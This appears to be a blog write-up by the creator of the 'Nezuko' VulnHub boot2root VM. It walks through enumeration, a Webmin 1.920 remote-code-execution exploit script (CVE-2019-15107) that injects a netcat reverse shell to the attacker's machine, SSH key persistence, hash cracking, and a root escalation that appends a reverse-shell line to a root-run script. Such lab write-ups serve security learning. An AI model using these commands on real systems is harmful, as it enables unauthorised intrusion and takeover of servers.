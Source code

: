 ```yaml
---
layout: post
title: "VM Nezuko Boot2Root Writeup"
categories: jekyll
permalink : /others/vm_nezuko
---
```


Hi there. This is my boot2root writeup for a vm called "Nezuko". For those who didn't manage to play with it, download the [vm](https://www.vulnhub.com/entry/nezuko-1,352/) and come back when you have finished.

### About Nezuko VM

![nezukovm](/musubi/assets/vm_nezuko/nezukovm.png)

I would consider this as an easy to intermediate level machine. But, if you need some hints, do reach me on [Twitter](htttps://twitter.com/yunaranyancat)

## Walkthrough

### Enumeration

Let's assume that we put our attacking machine (Kali) and Nezuko VM inside the same subnet which is `10.10.10.0/24` .
Therefore, by running `netdiscover -i eth0 -r 10.10.10.0/24` , we will find out that Nezuko vm is located at `10.10.10.4`.

p/s : the Kali vm has an IP of `10.10.10.5` . This is useful for us to create a reverse shell later.

![netdiscover](/musubi/assets/vm_nezuko/netdiscover.png)

By running `nmap -sS -sC -sV -oA nezukocommon 10.10.10.4` , we will get the following output.

![nmapcommon](/musubi/assets/vm_nezuko/nmapcommon.png)

Now, let's go to the webpage of `10.10.10.4` .

![nezukowebpage](/musubi/assets/vm_nezuko/nezukowebpage.png)

Nothing interesting except for nezuko chan.. ಥ ⌣ ಥ

By going to `10.10.10.4/robots.txt` , we will find an encoded text there.

![robotswebpage](/musubi/assets/vm_nezuko/robotswebpage.png)

The text is encoded with base32. Using online decoder such as this [site](https://emn178.github.io/online-tools/base32_decode.html) , we will get below plaintext.

![base32_decoded](/musubi/assets/vm_nezuko/base32_decoded.png)

Since we got a hint from nezuko saying this is not the right port to enumerate. We will run an nmap scan again now to scan all ports.

Note : By default, nmap will only scan for common 1000 ports. You can check the specific ports that nmap scans using the default scan on this [site](https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/).

By running `nmap -sS -sC -sV -p- -oA nezukoallports 10.10.10.4` , we will get below output.

![nmapallports](/musubi/assets/vm_nezuko/nmapallports.png)

It seems that port `13337` is running a `webmin` service. This might be an entry point for us.

### Exploitation

The target is running `webmin 1.920` . After some searching for webmin vulnerabilities, we will find a remote code execution vulnerability related to this specific version of webmin.

- [https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

![testexploit](/musubi/assets/vm_nezuko/testexploit.png)

Another link will lead us to a Metasploit module. However, we will not be using Metasploit because it will ruin all of the fun.

- [https://www.exploit-db.com/exploits/47230](https://www.exploit-db.com/exploits/47230)

![metasploit](/musubi/assets/vm_nezuko/metasploit.png)

Copy the shell script (in the first link) to our Kali to test if the target is vulnerable to rce exploit or not.

![vulnerablecheck](/musubi/assets/vm_nezuko/vulnerablecheck.png)

So it seems that the target is vulnerable.

We will modify the test code so that we can get a shell from the machine.

Our final exploit code should look something like this.

{% highlight bash %}
#!/bin/sh
URI=$1;

echo -n "Exploit for RCE (CVE-2019-15107) on $URI: ";
curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|nc -e /bin/bash 10.10.10.5 1337 &new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi' -X POST
{% endhighlight %}

Before running the exploit we should start our netcat listener on our Kali.

![listener_1337](/musubi/assets/vm_nezuko/listener_1337.png)

Then run the exploit code,
{% highlight bash %}
root@kali:~#sh exploit.sh https://10.10.10.4:13337
{% endhighlight %}

![nezuko_shell](/musubi/assets/vm_nezuko/nezuko_shell.png)

We got a shell as nezuko!

### (Optional) Upgrade to SSH session

We can obtain ssh session as nezuko by adding our public key to `/home/nezuko/.ssh/authorized_keys`.

First we need to generate our own private and public SSH key.

{% highlight bash %}
root@kali:~#ssh-keygen -t rsa
{% endhighlight %}

Save the key in our current working directory by putting a name when prompted for the filename, in this case, the filename will be `yunaranyancat`

Copy the content of `yunaranyancat.pub` to `/home/nezuko/.ssh/authorized_keys`

![ssh-keygen](/musubi/assets/vm_nezuko/ssh-keygen.png)

![copytoauthkeys](/musubi/assets/vm_nezuko/copytoauthkeys.png)

After that we can ssh as nezuko using following command

![sshprivate](/musubi/assets/vm_nezuko/sshprivate.png)

### Changing user to zenitsu

We find out that `/etc/passwd` is readable and furthermore, it reveals `zenitsu` password hash.

![etcpasswd](/musubi/assets/vm_nezuko/etcpasswd.png)

We can try to crack the hash using hashcat by typing following command.

![copytocrack](/musubi/assets/vm_nezuko/copytocrack.png)

![examplehash](/musubi/assets/vm_nezuko/examplehash.png)

And after waiting for a while, the hash has been cracked and stored inside file `cracked`.

![cracked](/musubi/assets/vm_nezuko/cracked.png)

Once we got the password, which is `meowmeow` , we can su as `zenitsu` user.

{% highlight bash %}
nezuko@ubuntu:~#su zenitsu
{% endhighlight %}

and when prompted with password, put `meowmeow` and then click enter.

### Privilege escalation

As `nezuko` user before, we found out that there is a folder named `from_zenitsu` in the home directory and now as `zenitsu`, we found a folder named `to_nezuko`. Upon inspecting both folder, we can say that these directories;

- from_zenitsu : contains message sent by zenitsu every 5 minutes (based on the name of the messages)

- to_nezuko : contains a bash script owned by zenitsu that will send a message to nezuko.

However, upon further inspection, we found out that the script is being run by `root` instead. That's why the messages sent to nezuko home directory are owned by `root`.

We can verify it by running
{% highlight bash %}
nezuko@ubuntu:~#ls -la /home/nezuko/from_zenitsu/*
{% endhighlight %}

This means that, we can escalate our current privileges to `root` privileges by modifying the content of bash.

Since the owner of the script is `zenitsu` , then it is possible to overwrite the script.

![cannot_change_bash](/musubi/assets/vm_nezuko/cannot_change_bash.png)

But, it seems that we obtained `permission denied` when trying to overwrite the content of the bash script.

### Exploiting file attributes

When running `lsattr` on the bash script, it showed that the file attribute of the bash script has been changed to `a`(append) mode only. This means we can only append the script but cannot overwrite it.

![lsattr](/musubi/assets/vm_nezuko/lsattr.png)

With a slight modification to our command, we managed to append our own command which will connect to our Kali.

{% highlight bash %}
zenitsu@ubuntu:~/to_nezuko$echo "nc -e /bin/bash 10.10.10.5 1234" >> send_message_to_nezuko.sh
{% endhighlight %}

Set up our listener to listen on port 1234

![listener_1234](/musubi/assets/vm_nezuko/listener_1234.png)

After waiting for couple of minutes for the script to be executed, we managed to get a root shell!

![root](/musubi/assets/vm_nezuko/root.png)

### Wrap up

Thank you for taking your time to read the writeup and I hope you enjoyed playing with my first vm. :>

Check out also [vm_aqua](/musubi/others/vm_aqua)
